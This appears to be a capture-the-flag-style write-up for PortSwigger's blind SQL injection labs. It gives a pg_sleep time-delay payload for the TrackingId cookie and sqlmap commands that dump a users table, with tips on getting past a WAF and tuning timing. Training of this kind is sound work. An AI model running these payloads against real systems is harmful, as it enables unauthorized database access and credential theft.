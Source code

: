 
### Quick Solution
For this lab it is only needed to observe that the DB is vulnerable to SQL injection with time delay, see the solution in the next section.                          


### Solution
1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the TrackingId cookie.
2. Modify the TrackingId cookie, changing it to: 
```
TrackingId=x'||pg_sleep(10)--
```
3. Submit the request and observe that the application takes 10 seconds to respond.

## Blind SQL injection with time delays and information retrieval
Reference: https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval


### Quick Solution
As in the previous lab the Database is vulnerable to **SQL Injection with time delays**. We can use the following commands to exploit the lab:
```
# Enumerate tables
docker run -it --rm secsi/sqlmap -u "<target_url>" --cookie="TrackingId=1" -p "TrackingId" --level 3 --dump
# Dump the content of the users table
docker run -it --rm secsi/sqlmap -u "<target_url>" --cookie="TrackingId=1" -p "TrackingId" --level 3 -T users --dump
```

if
```css
[WARNING] false positive or unexploitable injection point detected
```
then
--random-agent --technique T
without --threads
this also bypasses a WAF which only checks for the user agent header
if the sqli is time-based, sqlmap automatically sets threads to 1 tho

if
```css
[ERROR] invalid character detected. retrying..
```
then
--time-sec=4

Ctrl+C on sqlmap could potentially give admin creds in this case, but not always

alt.:

python3 sqlmap.py -u "https://0a9c002e03dfd3d0821afb9f00150064.web-security-academy.net" --cookie="TrackingId=1" -p "TrackingId" --flush-session -batch --level 3 -T users --dump

